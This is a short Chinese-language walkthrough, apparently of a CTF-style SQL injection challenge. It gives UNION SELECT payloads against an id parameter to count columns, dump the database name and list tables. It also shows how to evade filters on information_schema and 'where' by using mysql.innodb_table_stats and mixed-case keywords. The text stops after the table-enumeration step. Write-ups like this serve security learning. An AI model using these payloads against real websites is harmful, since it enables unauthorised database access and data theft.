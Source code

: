 首先爆一下字段数

```
?id=-1' union SelECt 1,2,3,4,5 --+
```

发现字段数为5
 爆库名

```
?id=-1' union SelECt database(),2,3,4,5 --+
```

![在这里插入图片描述](assets/727527fa76d94bfb8edd8e6c81f429a9.png)

然后经过再次测试，发现`information_schema.tables`和`where`都被过滤了
 这里用`mysql.innodb_table_stats`和`wHere`代替
 （多次尝试，发现回显的位置在5而不是1，开始卡了很久没回显）
 爆表名

```
?id=-1' union SelECt 1,2,3,4,group_concat(table_name) from mysql.innodb_table_stats wHere '1 --+
```

![在这里插入图片描述](assets/590aa272a9ec4554a7de722cefe6a49f.png)
